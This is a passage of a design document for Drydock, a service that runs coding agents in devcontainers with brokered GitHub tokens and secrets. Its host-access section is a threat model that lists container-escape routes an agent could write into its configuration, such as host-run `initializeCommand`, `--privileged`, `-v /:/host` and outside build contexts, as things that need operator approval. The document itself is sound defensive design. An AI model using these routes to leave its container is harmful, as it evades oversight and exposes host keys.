The secret routes, as built (§10). Each secret in `GET /api/secrets` — `{"secrets": [...]}` — is `name`, `reach`, `description`, `all_repos`, `grants` (`[{repository_id, full_name}]`), `created_at`, `rotated_at` (null until the value first changes), `last_access_at` and `accessed_by` (the workspace ids that ever fetched it, most recent first). There is no field a value could go in. Beside the list is `undeliverable`: `null` while every stored secret can be delivered, otherwise `{since, secrets: [{name, reason}]}` with `reason` `does_not_open` (the master key cannot decrypt it — store the value again) or `breaks_write_rules` (only a database edit makes one — delete it). It is read from the broker's own snapshot, so it says what the next `GET-SECRETS` will do, and it carries names and reasons only (§10.3, *As built*). `PUT /api/secrets/:name` answers `{secret, created, rotated, stale: {new_commands: [...], needs_supervisor_restart: [...]}}`, each stale entry `{workspace_id, repository_id, full_name}`; only a changed *value* is a rotation, so a PUT that changes only the reach or description, or any grant change, leaves both lists empty. **`value` has three spellings, and each means one thing**: absent keeps the stored value, so the reach and description can be rewritten without handling the credential (a name with no secret is then `secret_value_required`: there is nothing to keep); a string is stored after §10.1's rules, so `""` is refused as `secret_value_empty` and is never read as "keep"; and `null` is neither, so `bad_request`. `PUT …/grants` answers `{secret}`. These answer `200` rather than `202` because nothing in them is slow, and the stale lists are something the stream cannot deliver in time to show beside the form; entity state still reaches the reducer as `secret.created`, `secret.updated` (the prose only), `secret.rotated` (which carries the same `stale` object), `secret.grants` and `secret.deleted`, and the delivery state as `secret.undeliverable` (`{undeliverable}`, when delivery breaks or the set of broken rows changes) and `secret.deliverable` (when it is fixed). Refusals are `400` with codes the UI gives one sentence each: `secret_name_invalid`, `secret_name_reserved` (the detail names why that one), `secret_value_required`, `secret_value_empty`, `secret_value_control_character` (the detail names the character and its byte offset, never the value), `secret_value_too_long` (32 KiB), `secret_reach_required` (blank), `secret_reach_too_long` (over 2000 bytes), `secret_description_too_long` (over 4000 bytes), `secret_description_invalid` (not UTF-8, which a JSON body cannot carry), `unknown_repository`; and `503 secrets_not_configured` when no master key was given. **A create cannot replace**: `If-None-Match: *` makes the `PUT` a create, and a name already stored is `412 secret_exists` — checked inside the write's own transaction, so of two devices creating one name at once exactly one lands — with nothing written and no event. Without the header the `PUT` is still create-or-replace, which is what the edit form sends. Any other `If-None-Match` is `bad_request`: nothing here has an ETag to match. A create with no `value` is `secret_value_required`. The UI's *New secret* always sends the header (frontend §6.4): on a write-only store a replace typed into a create form loses a value nobody can read back. The body is decoded strictly — an unknown field is `bad_request`, so a misspelt `reach` is not reported as a missing one.
| `GET /api/auth/claude` | Login state: `ok` / `expiring` / `expired` / `blanked` / `absent`, with account and expiry, and any in-flight login (frontend §4.5 #2). As built, Phase 5: `{"identity": {state, account_email, expires_at, login_expires_at, logged_in_at, last_checked_at, volume, check_error}, "login": null}`. `state` is `null` until a check has ever succeeded — not yet known, never `absent`; `account_email` and `expires_at` (the access token's) are set only beside a login, and `login_expires_at` (the login's, what `expiring` counts down to) only beside a login whose file records one; `logged_in_at` is when the watch first saw this login; `check_error` is `null` or the last check's failure, `{at, problem, message}`, in Drydock's words, with the stored state standing. `login` is the handshake (§7.2) in progress, or one that ended within ten minutes, else `null`: `{login_id, phase, url, deadline, started_at, ended_at, attempts, problem, message}`, `phase` one of `starting`, `awaiting_code`, `submitting`, `invalid_code`, `succeeded`, `timed_out`, `failed`, `cancelled`; `url` and `deadline` from `awaiting_code` on. There is no field a code could go in. | Identity |
| `POST /api/auth/claude/check` | Check the shared login now rather than at the next poll (§7.3), joining a check already running. The verdict arrives as `auth.identity` when it changed, a failure as `auth.identity_check_failed`, and a check that found nothing new as `auth.identity_checked` — every request gets one of the three. `503 unavailable` once the watch has shut down, since nothing would answer. | `202 {}` |
| `POST /api/auth/claude/login` | Begin the handshake (§7.2). Runs `claude auth login` on a PTY in a short-lived container. One at a time: another while one runs is `409 in_progress`. Every phase arrives as `auth.login`, the first (`starting`) before the `202`. | `202 {login_id}` |
| `POST /api/auth/claude/login/:lid/code` | Submit the pasted code, body `{"code": "…"}` — a body, never a URL, so no access log can hold it. Its shape is checked first (`400 login_code_invalid`, the detail naming the rule: `empty`, `no_separator`, `half_missing`, `extra_hash`, `bad_character`); then it is typed into the PTY and the verdict arrives as `auth.login`. `409 login_not_awaiting_code` while starting or checking a code, `409 login_ended` after the end, `404` for another login. No response says anything built from the code. | `202 {}` |
| `DELETE /api/auth/claude/login/:lid` | Cancel: kill the process, remove the container, then announce `cancelled`. `409 login_ended` after the end. | `202 {}` |
| `GET /preview/authorize?return=<url>` | The UI half of the preview handshake ([port forwarding](../port-forwarding/port-forwarding-design.md) §7). Not under `/api`, and the one *redirect*-gated route: with no session, `302` to `/signin?return=` carrying itself. With one: `return` must be an `https` URL on exactly one preview host — one label under the preview domain, no port, no user info, never `drydock-check` — or it is `400 bad_request`, never a redirect; a slug with no enabled port on a running workspace is `302` to that host's `/.drydock/denied`; otherwise a single-use token (60 s, in memory, bound to this session, that host and that port) and `302` to `https://<host>/.drydock/session?t=<token>`. `Cache-Control: no-store`. Not `Mutating`: a top-level `GET` an `Origin` check would refuse. | `302` |
| `GET /api/events` | SSE. `workspace.*` (`workspace.action` carries a stop's or a delete's sub-steps, §6; `workspace.job` — `{kind, outcome}`, `kind` one of `create`, `start`, `rebuild`, `approve`, `stop`, `delete`, `supervisor` and `outcome` one of `ok`, `failed`, `cancelled` — ends every workspace job, exactly once, after the job's other events: it is what ends the press that started it, and changes no entity), `session.*`, `auth.*`, `token.issued`. Every event carries `id:`; a reconnect's `Last-Event-ID` replays the gap from a 1,000-event window, and a gap outside it gets one named `resync` event instead of a partial replay. Domain events are unnamed with the kind in the JSON, because `EventSource` drops a named event nobody listens for. A `: ping` every 20 s re-checks the session, so a revoked device's stream ends within one beat. `?last_event_id=` does what the header does, for the one client that cannot send it — a *new* `EventSource`, the frontend's hard retry — and the header wins when both are present, since an `EventSource` keeps its URL across its own reconnects. Phase 6 adds a second named frame, `resources`: one per sampling round, `{round, boot, at, workspaces: {<id>: resources}, host}`, with **no `id:` line** — it is a measurement, never written to the log, so it neither moves the browser's `Last-Event-ID` nor replays, and a subscriber too far behind skips one rather than being cut off for it (§6 *Resources*). | `text/event-stream` |

#### Broker socket protocol (not on the network)

The broker speaks a deliberately tiny line protocol over the per-container Unix socket — small enough that the in-container client is a shell script with `nc` as a fallback, and small enough to audit at a glance.

```text
→ GET-TOKEN scope=git          # or scope=gh
← OK token=ghs_xxxxxxxx expires_at=2026-08-25T19:04:11Z
← ERR reason=repo_archived      # or revoked | app_permission_missing | rate_limited | unavailable | bad_request
→ PING                          # the postStart probe
← OK
→ GET-SECRETS                   # no arguments, ever (§10.3)
← OK count=2                    # then two NAME value lines, then END
← ERR reason=revoked            # or unavailable | bad_request
```

One request per connection, one line each way — except `GET-SECRETS`' answer, whose framing §10.3 specifies. The parser is strict: a line that adds a field the grammar lacks — `repo=`, a second `scope=`, a trailing space — is `bad_request`, not a request with the extra part ignored, because a permissive parser invites exactly the client that tries one. The reasons are a closed set so the client can turn each into one sentence. `revoked` covers a repository the installation no longer covers, a workspace being deleted, GitHub answering the mint `404` (the installation is gone), and GitHub's `422` *There is at least one repository that does not exist or is not accessible to the parent installation.* `app_permission_missing` is GitHub's other `422`, *The permissions requested are not granted to this installation.*: the App lacks a permission the scope asks for (§9.3), or holds it but its installation has not yet accepted the change. That one is the operator's to fix in the App's settings, and nothing about the repository is wrong — usually it is the `gh` scope alone, while `git` keeps working. **The status cannot tell these apart, only the message can**, so the broker matches the stable middle of each sentence, case-insensitively, as it already matches "rate limit" and "suspended", and a `422` matching neither is `unavailable` rather than a guess. The contract tests pin both sentences against the real dev App and the fake alike, with the matchers the broker uses (`TestContractTokenRequestsBeyondTheAppAreRefused`), and the broker reports that refusal as `app_permission_missing` against the fake, which refuses with GitHub's sentence. The dev App carries production's permission set, so the broker's own contract mints both scopes live (`TestContractGHScopeMints`); while it lacked `actions: write`, that contract reproduced the v0.3.0 deployment's failure end to end, `gh` refused while `git` from the same socket succeeded. A GitHub rewording fails a nightly run rather than quietly turning a fixable misconfiguration back into a "revocation". GitHub's sentence does not say *which* permission, so neither does Drydock: `token.refused` names the scope and carries its permission set in `data`, and its message for this reason says what to check — *"GitHub refused a gh token for this workspace: the GitHub App lacks a permission this scope needs. Check the App's permissions, and accept any pending permission request on its installation."* — never GitHub's own text. The client prints *"drydock: GitHub access unavailable (the GitHub App lacks a permission; see the workspace's events in Drydock)"*, and any reason it does not know, as an older Feature talking to a newer server would see, is printed as it came with the same exit `69`. `rate_limited` covers GitHub's limit and a suspended App. The repository's state is read on every request, so archiving one stops its tokens without touching the socket.

There is no `repository` parameter, and the `GET-SECRETS` verb in §10.3 takes no arguments at all. The broker derives both the repo and the grant set from which socket the connection arrived on, so a compromised container cannot ask for a different repo's token or another repo's secrets — it can only ask for its own, which it already had.

> [!NOTE]
> **The UI needs six more additions to the table above**
>
> A client built on "every mutation is a `202`, follow the stream" needs things this table does not yet promise: `id:` on every SSE event with `Last-Event-ID` replay and a heartbeat, the in-flight login readable back from `GET /api/auth/claude`, a `409` on a duplicate workspace create, a route onto the supervisor's log ring buffer, a consistent error envelope, and the capacity fraction plus the matched refused-start signature. They are enumerated with their reasons in the [frontend design](../frontend/frontend-design.md) §4.5 rather than here, so this table stays the server's own contract — but they are requirements, not wishes.
>
> Three of its original nine are already answered by §4 as of v7, and for the reason §4 gives itself: `claude_identity.state` carries the five-way login verdict, `workspace.environment_id` is the card's only link, and `supervisor.state` has `waiting_registration` so a `409` wait is not stored as a failure. A UI is simply where "a state inferred differently by every reader" becomes visible.

## 6. Clone → container

What happens between the click and a usable session. Every step writes an event, so a failure at step 6 tells you it was step 6 rather than “failed”.

1. **Allocate.** Insert the workspace row in `pending`, mint a ULID, create `/srv/drydock/ws/<id>/`. Reject if the concurrent-container cap is already met.
2. **Clone.** Mint a `contents:read` (plus `metadata:read`) installation token scoped to exactly this workspace's repository, then `git clone --branch=<branch> -- https://github.com/<full_name>.git repo`. The token never appears in a URL or on a command line — `/proc/<pid>/cmdline` is world-readable, and a token-bearing URL is also what git writes into `.git/config` as the remote. It reaches git through its environment instead (`/proc/<pid>/environ` is readable only by Drydock's own uid): `GIT_CONFIG_COUNT`/`KEY_n`/`VALUE_n` set an inline credential helper, keyed to the GitHub host, that prints the token from an environment variable, so the helper's own argv carries the variable's *name* and nothing is written to disk. Environment-scope config is never persisted, so the clone is left with the plain HTTPS remote and no helper, and inside the container the Feature's helper (§9) is the only one. git runs with `GIT_CONFIG_GLOBAL` and `GIT_CONFIG_SYSTEM` at `/dev/null`, `GIT_TERMINAL_PROMPT=0`, and `GIT_CEILING_DIRECTORIES` above the workspace directory — an `http.extraheader` in an enclosing repository's config is sent ahead of a credential helper and wins. A clone never deletes an existing directory at its path; that is Delete's job alone. (`internal/clone`.)
3. **Resolve config.** `devcontainer read-configuration --workspace-folder repo`. No `devcontainer.json` is not a disqualification — every repo in the installation is listed and clonable. Drydock writes a minimal config into `/srv/drydock/ws/<id>/.drydock/devcontainer.json` — beside the clone, not in it — and passes it with `--override-config` to `read-configuration`, `up` *and* `exec` (measured: `exec` reads the config too, and fails without the override when the repo has none), leaving the repo untouched, so a repo that has never been containerized still gets a working session. The minimal config is `mcr.microsoft.com/devcontainers/base:debian` and nothing else: a non-root `vscode` user, which step 6's credential mount and every session assume; git and curl, so the Feature installs without a toolchain; and the base the Feature's tests and the container tier run on. It is deliberately not a language image — a repository with no config has said nothing about its toolchain. See *Step 3, measured* below for how "no config" is decided. Step 3 then **stops for the operator's approval of anything in the configuration that reaches outside the container** — *What a configuration may ask of the host*, below — and so runs before every `up`, on create, start and rebuild alike.
4. **Ensure the credential volume.** Create the shared Claude config volume if absent (§7). *As built in Phase 5:* `docker volume create --driver local --label <prefix>.claude-config=true -- <name>`, with the name `drydock-claude-config` by default (`--claude-volume`; a test Drydock names its own), only when an exact-name listing does not find it, then `docker volume inspect` of whatever is there: a volume without this prefix's label is refused as made by something else, and one whose driver is not `local` or that has driver options — which on the local driver means it mounts an NFS or CIFS export — is refused as not a plain local volume (Spike 00: the refresh lock needs `mkdir` to be atomic). It runs on every create, start and rebuild, is a no-op once the volume is there, and its detail says which it was. Nothing in Drydock removes the volume; a delete removes containers with `--volumes`, which takes anonymous volumes only.
5. **Open the socket.** Broker creates `/run/drydock/sock/<workspace_id>/broker.sock`, bound to this workspace's repo, in a directory of the workspace's own that holds nothing else — the directory, not the socket, is what step 6 mounts. The socket is mode `0666` and its directory `0755`, inside a `0700` parent. Earlier drafts said `0660`, which would refuse a container user who is neither Drydock nor in its group. Host users are stopped by the parent instead, since they cannot traverse it. The container is not, because the bind mount hands it the workspace's directory directly. So the mount decides who can connect, which is §9.1's point. *Why a directory, measured:* a bind mount pins the inode it was given, and a restarted Drydock listens on a **new** socket; with the socket file mounted, every running container kept the dead inode (`drydock-broker PING` exit 69, host and container inodes different — the post-merge review of #16, and `test/container`'s restart test with the file mount put back). A mounted directory shows its current entries, so the new socket is the container's at once. That makes the directory the thing that must survive: the broker never recreates one that exists, only a delete removes it, and the installer's unit sets `RuntimeDirectoryPreserve=yes`, since systemd otherwise removes `/run/drydock` with the service. The socket is bound at a staging name in the parent and renamed into the directory, because the CLI's `--mount` takes no `readonly` (CLI 0.89.0 refuses it) and root in the container can write there: the chmod never touches a path a container could swap for a symlink, and the rename replaces whatever is at the name without following it.
6. **Bring it up.** The one long call. See below.
7. **Verify.** `devcontainer exec` a probe: `claude --version`, `git -C /workspace remote -v`, and one broker round-trip. A green probe is what moves the workspace to `running`. *As built in Phase 2: `drydock-probe` (the broker round-trip) and `git -C <workspaceFolder> remote -v`, whose `origin` must be the plain repository URL; `workspaceFolder` is `read-configuration`'s, `/workspaces/repo` unless the repo sets its own. Phase 5 adds `claude --version`, which must start with the version Drydock's classifiers were recorded against (`classify.ClaudeCodeVersion`): a repository's image can carry a Claude Code of its own, and a container whose first `claude` is another version is refused here rather than scraped with the wrong patterns.*
8. **Start the session server.** Hand off to the supervisor (§8). *As built in Phase 5:* the step hands the workspace to the supervisor and is done — it does not wait for `serving`, because the supervisor's own states carry the rest (and a step-8 failure leaves the workspace `running`, below).

Provisioning runs off the request path, one run per workspace at a time, and every run ends in a state the rest of this section already handles. A run is bounded by a timeout (`--provision-timeout`, 30 minutes) and by Drydock's shutdown; either fails the step it interrupted with a sentence saying which, and shutdown waits up to 20 s for that to be written. A process killed too fast to write it (`kill -9`) leaves the row `cloning` or `building`, which reconciliation marks failed. Reconciliation runs beside serving, so it skips every workspace *this* process has started a run for — otherwise a create in the first seconds after boot would be marked "interrupted" by the boot that is running it. `start` resumes from step 3 when the clone's last step event says `done` and the directory is there, and from step 2 otherwise; a clone interrupted half-way leaves a directory without a `done`, and step 2 then refuses it rather than deleting it. The `workspace.state` event that moves a workspace to `running` carries its `container_id` in `data`, so the UI's reducer has it without refetching the workspace.

Each step writes a `workspace.step` event as it starts and as it ends, and a failure moves the workspace to `failed` with a detail naming the step. The detail is Drydock's sentence, never the step's raw error: a subprocess's stderr can carry anything — git's quotes the URL, `up`'s can quote the repository's own commands — so it is treated as unsafe and kept out of the event log. Step 8's failure leaves the workspace `running` — the container is fine, and the supervisor's own states carry the rest.

#### Step 6, in full

```bash
# --no-lockfile only when the repository commits no devcontainer-lock.json;
# with one, no lockfile flag. See "The repository's lockfile" below.
devcontainer up \
  --workspace-folder /srv/drydock/ws/$WS/repo \
  --no-lockfile \
  --id-label drydock.workspace=$WS \
  --id-label drydock.repository-id=$REPO_ID \
  --id-label drydock.repo=$FULL_NAME \
  --id-label drydock.branch=$BRANCH \
  --additional-features '{"ghcr.io/krelinga/drydock/drydock:1":{
      "claudeCodeVersion":"2.1.289",
      "botName":"krelinga-drydock[bot]",
      "botEmail":"337840004+krelinga-drydock[bot]@users.noreply.github.com"}}' \
  --mount "type=volume,source=drydock-claude-config,target=/home/vscode/.claude" \
  --mount "type=bind,source=/run/drydock/sock/$WS,target=/run/drydock" \
  --remote-env DRYDOCK_WORKSPACE=$WS \
  --remote-env DRYDOCK_REPO=$FULL_NAME \
  --docker-path /srv/drydock/ws/$WS/.drydock/guard/docker \
  --docker-compose-path /srv/drydock/ws/$WS/.drydock/guard/docker
# with TMPDIR=/srv/drydock/ws/$WS/.drydock/tmp, and the guard's policy written
# to .drydock/guard/policy.json first. See "The docker guard" below.
```

> [!NOTE]
> **What `up` actually returns, measured on CLI 0.89.0**
>
> - **There is no `--json` flag** — earlier drafts passed one, and `up` rejects it with `Unknown argument: json`, empty stdout, exit 1. The result is **always** one JSON object on stdout, success or failure; every log line goes to stderr.
> - **The result names no step.** Failure carries `message` and `description` prose — specific for a failed `postCreateCommand`, generic (`An error occurred setting up the container.`) for an image pull. So §6's "every step writes an event" comes from **Drydock tracking its own steps**; `up` is one of those steps, not a source of them.
> - **A failed `up` can still own a running container.** A failing `postCreateCommand` leaves the container created and running, and the error result carries its `containerId`. Teardown and reconciliation must treat a failed `up` as possibly holding a container.
> - **`--remote-env` given to `up` does not reach a later `exec`.** Measured on CLI 0.89.0: a variable passed to `up` is absent from `devcontainer exec`'s processes. So `DRYDOCK_WORKSPACE` and `DRYDOCK_REPO` above reach only the lifecycle commands, and anything the supervisor's process needs must be passed on its `exec` as well. Only `devcontainer.json`'s own `remoteEnv` and a Feature's `containerEnv` carry over by themselves, which is why the broker socket's path is the Feature's `containerEnv`.
> - **The id label decides which container you get, not the workspace folder.** `up` with an existing label value reattaches to that container and reports `success` even when the config has since changed — so a rebuild must pass `--remove-existing-container`, which §5's rebuild route already specifies.
> - **Two `up`s that start in the same millisecond build each other's Features.** The CLI stages a run's Features in `$TMPDIR/devcontainercli-<user>/container-features/<version>-<Date.now()>`, so concurrent creates can share one folder; measured, one of two workspaces created together came up without a Feature its config declares. Every `up` runs with a `TMPDIR` of its workspace's own, `/srv/drydock/ws/<id>/.drydock/tmp`, removed after.

#### The repository's lockfile

VS Code writes `devcontainer-lock.json` beside a `devcontainer.json` to pin each Feature the repository declares to an exact version and digest, and repositories commit it. Drydock honours it — a workspace installs exactly the Feature versions the same repository gets in VS Code — by doing what VS Code does with it, and nothing more. An in-sync lockfile comes through a workspace's whole life byte for byte. A stale one is rewritten to exactly the bytes VS Code would write, and Drydock leaves that rewrite in the clone and says so on the `up` step. Nothing of Drydock's ever appears in it.

> [!NOTE]
> **What `up` does with a lockfile, measured on CLI 0.89.0**
>
> A local registry serving one Feature at `1.0.0` and `1.1.0` (the major tag resolves to `1.1.0`), a committed lockfile pinning `1.0.0`, a fresh git repository per run. Every row is in `test/fixtures/devcontainer/lockfile-behaviour.txt`, recorded by `record.sh lockfile`, and `internal/container`'s `TestRecordedLockfileBehaviour` pins the rows this section rests on, so a CLI bump that moves one fails a test.
>
> - **`--no-lockfile` neither reads nor writes.** The committed lockfile is ignored — `1.1.0` installed — and the clone is untouched. So the `--no-lockfile`-always rule the walking skeleton shipped with silently built a different container from VS Code for any repository that commits one.
> - **No flag reads and honours it** — `1.0.0` installed — **and writes whenever what it resolved differs**: a new untracked lockfile where none is committed, a rewrite of a stale or blank one. An in-sync lockfile alone is left byte for byte.
> - **`--additional-features` Features are not written, but their `dependsOn` Features are, and an entry for one is read.** So a Feature Drydock injects stays out of the repository's lockfile only if it has no dependencies — the reason Drydock's has none (§11). Conversely a lockfile entry for an injected Feature pins it.
> - **With Drydock's own Feature (0.3.0, no `dependsOn`) injected, a lockfile VS Code wrote is untouched through create, start after a stop, and rebuild** (`--remove-existing-container`), and its pin holds — `1.0.0` installed although the tag has since moved to `1.1.0`. The same Feature with the `dependsOn: github-cli:1` it carried until 0.3.0 rewrites that lockfile on the first create. Both are rows of the recording, published to the local registry from the checkout.
> - **A stale lockfile is rewritten to the same bytes with Drydock's Feature as without it** — which is what VS Code runs. The recording compares their SHA-256: equal with 0.3.0, different with the old `dependsOn`.
> - **`--frozen-lockfile` reads, honours and never writes — and refuses to build** (`Lockfile does not match.`, before any container exists) unless the lockfile is exactly what `up` would write. Without a lockfile it refuses with `Lockfile does not exist.`
> - **The lockfile's path is the repository's, whatever `--override-config` says.** It is read and written beside the default config path, named `.devcontainer-lock.json` for a root `.devcontainer.json`; one beside the override is never read. With an override and no `.devcontainer/` in the repository, no flag fails on `ENOENT` writing it.
> - The CLI's `--experimental-lockfile` and `--experimental-frozen-lockfile` are the deprecated spellings of the default and of `--frozen-lockfile` since 0.87.0, not a third behaviour.

So the choice, per run:

- **No lockfile committed** (or a blank one, which the CLI would only fill in): `--no-lockfile`. Nothing is read or written, and VS Code's auto-creation of a lockfile never happens in the clone — a new file there would be Drydock's doing, not the repository's.
- **Drydock's minimal config** (§6 step 3): `--no-lockfile`. The repository has no config, so there is nothing to honour.
- **A lockfile committed:** no flag, so `up` reads and honours it, exactly as in VS Code. `resolve_config` first finds the lockfile from the path `read-configuration` reports, refuses one that is not a regular file inside the clone or does not parse, and refuses one with an entry for Drydock's own Feature — that Feature is pinned by Drydock's `--feature` reference, never by a repository (§11).
- **After `up`, Drydock compares the lockfile's bytes with what was there before it ran.** When `up` changed it, the `up` step finishes `done` with a detail naming the file — *devcontainer up rewrote ".devcontainer/devcontainer-lock.json" in the clone because it was out of date…* — and the rewrite stays. The comparison is of bytes, not `git status`, for two reasons: the clone is the agent's working tree and may hold changes that are not `up`'s, and running git on the host against a `.git/config` the container can write would run whatever `core.fsmonitor` or a filter driver names, as Drydock.

**A refreshed stale lockfile is not "dirty" in the sense this section guards against.** The reason Drydock kept the clone clean was that a lockfile modified by Drydock — listing Drydock's own Feature's dependency — is one `git add -A` from being pushed into the repository, leaking Drydock's internals into every agent's pull request and breaking any repository whose CI runs `--frozen-lockfile` once such a change merged. A stale lockfile rewritten with no Feature of Drydock's in play has none of that: it is the repository's own lockfile brought in line with the repository's own `devcontainer.json`, byte for byte what the next person to open it in VS Code gets anyway, and what a `--frozen-lockfile` CI would demand. Committing it is correct; being surprised by it at commit time is the only harm, and the step's detail is there for that. Restoring the stale bytes instead would make the workspace build from a lockfile other than the one sitting in its clone.

Four alternatives lost. **Saving the committed bytes outside the clone and restoring them after every `up`** — what this section specified before Feature 0.3.0 — kept the clone clean while the Feature's dependency was rewriting every lockfile, but it needed a save file, a crash window as long as an image build, recovery at boot and at the start of every run, and an error path for a restore that could not finish. With no dependency there is nothing of Drydock's to undo, so all of it went. **`--frozen-lockfile`** writes nothing, but refuses any lockfile a commit stale, which VS Code would quietly rewrite — it would fail builds VS Code succeeds at. **Running `up` against a copy of the config outside the clone, with the lockfile beside it**, does not work at all: the lockfile is read and written at the repository's default path whatever `--override-config` points at, and a copy would also break a config's relative paths — a `Dockerfile`, a build context of `..`. **`--no-lockfile` always** is the behaviour being replaced.

> [!WARNING]
> **What this binds Drydock to**
>
> Drydock's Feature must never declare `dependsOn`. Anything it needs, its own `install.sh` installs — which is how `gh` arrives (§11). A dependency would be written into every repository's lockfile on the first `up`, and the step's detail would then be reporting Drydock's own leak rather than the repository's staleness. The Feature's scenario test asserts `gh` was installed by the Feature itself, and the container tier asserts an in-sync lockfile is untouched; re-adding `dependsOn` fails both.

> [!NOTE]
> **Step 3, measured on CLI 0.89.0**
>
> - `read-configuration` prints one JSON object on stdout: `configuration` (the configuration as resolved, plus `configFilePath`), `workspace` (`workspaceFolder`, `workspaceMount`), and `ociAuthDiagnostics`. Logs go to stderr. Fixtures in `test/fixtures/devcontainer/read-configuration-*`, re-recorded by `record.sh readconfig`.
> - **A folder with no `devcontainer.json` exits `1` with an empty stdout and no message** — indistinguishable by output from any other failure. So "no config" is decided by looking for the two files the CLI reads by default, `.devcontainer/devcontainer.json` and `.devcontainer.json`, never by reading the failure. A config only in a subfolder of `.devcontainer/` is one the CLI does not pick without `--config`, so it gets the minimal config too, and the step says so.
> - **A `devcontainer.json` that does not parse exits `0`**, with a `configuration` holding nothing but `configFilePath`; only `up` fails later, with "No image information specified". So step 3 checks for an image, a Dockerfile or a Compose file itself and fails there, naming the likely cause, rather than in the long step.
> - With `--override-config`, `configFilePath` still names the folder's default path — it says where a config would be, not where this one came from.
> - **`--include-merged-configuration` adds `mergedConfiguration`**: the configuration with its Features' and its image's metadata merged in — `privileged` and `init` as booleans, `capAdd`, `securityOpt` and `mounts` concatenated, the lifecycle commands as lists. It fetches that metadata from the registries without pulling the image or building anything, and **does not run `initializeCommand`**: the recording of `read-configuration-merged-hostile.json` has one write a host canary and fails if it appears. Given no `--id-label`, the CLI looks for an existing container by its default labels and, finding one, reads the metadata off that container instead, so step 3 passes an id-label no container carries (`<prefix>.read-configuration=none`).
> - **A `LABEL devcontainer.metadata` in a repository's own Dockerfile is ignored by both** — `read-configuration` reads the base image's metadata, and `up` writes the label from that, not from the Dockerfile's (measured: `privileged`, `capAdd` and a bind mount in such a label reached neither the merged configuration nor the container). So the merged configuration is what `up` applies.

> [!WARNING]
> **Sharp edge**
>
> `--additional-features` composes with whatever the repo already declares; it does not replace it. If a repo's own `devcontainer.json` pins a conflicting `remoteUser` or sets `containerEnv` for any of the four Remote-Control-killing variables in §2.1, the feature must detect that at `postCreate` time and fail loudly rather than produce a container whose sessions silently never connect.

#### What a configuration may ask of the host

The clone is bind-mounted read-write into its container — it is the agent's working tree — so the `devcontainer.json` that a start or rebuild reads may be one the container wrote, and a repository that had none can be given one. `devcontainer up` acts on it with Drydock's uid **on the host**: it runs `initializeCommand` there, before anything else, and hands `runArgs`, `mounts`, `privileged`, `capAdd`, `securityOpt`, a Compose file and a build context to the host's daemon. The `drydock` user can read the App key and the secrets master key and is in the `docker` group (§13.4), so any one of those was a way out of the container on the operator's next Start or Rebuild — which is exactly what an operator clicks after an agent says it "fixed the dev container". The post-merge review of #25 measured it on CLI 0.89.0: an `initializeCommand` wrote a file on the host before the image pull it was paired with failed.

Refusing those fields outright was the first answer, and it refused docker-in-docker — which a repository can legitimately need, this one included. So **step 3 computes the configuration's host-access subset and runs it only when the operator has approved it — that subset or more — for the repository.** An empty subset — the common case — needs nothing. (`internal/container/policy.go`, `internal/workspace/approval.go`.)

**The subset.** Step 3 reads two things from `read-configuration --include-merged-configuration`: the configuration itself, with comments stripped and `${localEnv:…}` and `${localWorkspaceFolder}` substituted as `up` will substitute them, and the merged configuration, which adds what its Features and its image's metadata declare. Every field outside the allowlist below is in the subset, as an entry `{field, source, value}` — `source` is `repository` or `feature_or_image`, so a Feature's `privileged` is a different entry from the repository's — and for a list field only its entries outside the allowance: a `capAdd` of `SYS_PTRACE` and `SYS_ADMIN` contributes `["SYS_ADMIN"]`. It is an **allowlist**: a field it does not name — one a later CLI adds — is in the subset, so it needs an approval until someone has read what it does.

| Field | Rule | Why |
|---|---|---|
| `name`, `image`, `features`, `overrideFeatureInstallOrder`, `containerEnv`, `remoteEnv`, `remoteUser`, `containerUser`, `updateRemoteUserUID`, `userEnvProbe`, `overrideCommand`, `shutdownAction`, `init`, `forwardPorts`, `portsAttributes`, `otherPortsAttributes`, `customizations` (and the legacy `extensions`, `settings`), `secrets`, `waitFor`, `workspaceFolder`, `$schema` | Outside the subset | In the container, or read only by an editor. A Feature installs as root, but inside the image it builds. `workspaceFolder` is a path in the container; where the clone is mounted is `workspaceMount`'s. |
| `onCreateCommand`, `updateContentCommand`, `postCreateCommand`, `postStartCommand`, `postAttachCommand` | Outside | They run in the container. |
| `initializeCommand` | **In the subset** | The one lifecycle command that runs on the host. |
| `runArgs` | **In** | Arbitrary `docker run` flags: `--privileged`, `-v /:/host`, `--network host`, `--pid host`. |
| `privileged` | In when `true` | Root on the host. docker-in-docker's Feature sets it. |
| `capAdd`, `securityOpt` | In, but for `SYS_PTRACE` and `seccomp=unconfined` | The official Go, Rust and C++ Features and images declare exactly that debugger pair, and asking for it would ask of most repositories in those languages — teaching the operator to approve without reading. Neither opens a path to the host: `SYS_PTRACE` reaches the container's own processes, and `seccomp=unconfined` widens the kernel surface of a container that is still unprivileged. |
| `mounts` | In, but for volumes named with `${devcontainerId}`, anonymous volumes and tmpfs | `${devcontainerId}` is filled from the workspace's own id-labels, so such a volume is this workspace's alone; a plain name could be the shared credential volume or another workspace's. A bind, `volume-opt` or `volume-driver` (the local driver's `o=bind` turns a volume into a bind), or a quoted field is in. |
| `workspaceMount` | **In** | A bind-mount spec: it could mount `/`. |
| `appPort` | **In** | Publishes a port on the host. |
| `dockerComposeFile`, `service`, `runServices` | **In** | A Compose file can mount, publish and privilege anything, and Drydock reads none of it, so the approval is of the Compose setup as a whole. |
| `build.dockerfile`, `build.context` (and `dockerFile`, `context`) | In when they resolve outside the clone, symlinks followed | The daemon reads them on the host: a context of `../..` sends the workspace directory, or `/etc/drydock`, into an image the container can read. |
| `build.target`, `build.args` | Outside | In the image. |
| `build.cacheFrom` | In but for registry caches, read as buildx reads them | A registry cache names an image; a `type=local` one reads a host directory (measured: buildx imports `TYPE=local,src=<path>`, and creates `<path>`). Read with buildx's own rules — CSV, keys lowercased, the last `type` winning, a value with no `=` a registry reference — by the parser the docker guard uses, never a substring. |
| `build.options` | **In** | Extra `docker build` flags: `--build-context`, `--secret src=…`, `--network host`. |
| `hostRequirements` | Outside but for `gpu` | `cpus`, `memory` and `storage` only describe the host; `gpu` passes its GPUs in. |
| Anything else | **In** | The allowlist. |
| A Dockerfile, build context or bind-mount source written inside the clone that is a symbolic link out of it | Not approvable: the step fails | An approval is of the path as written, the container can point the link elsewhere, and docker follows it (measured). The docker guard refuses such a path even when approved, so step 3 says so first rather than ask for an approval that could never run. |
| The file itself | Must be a regular file inside the clone, symlinks followed | Not a setting to approve: the paths it names would not resolve where they appear to, so the step fails. |

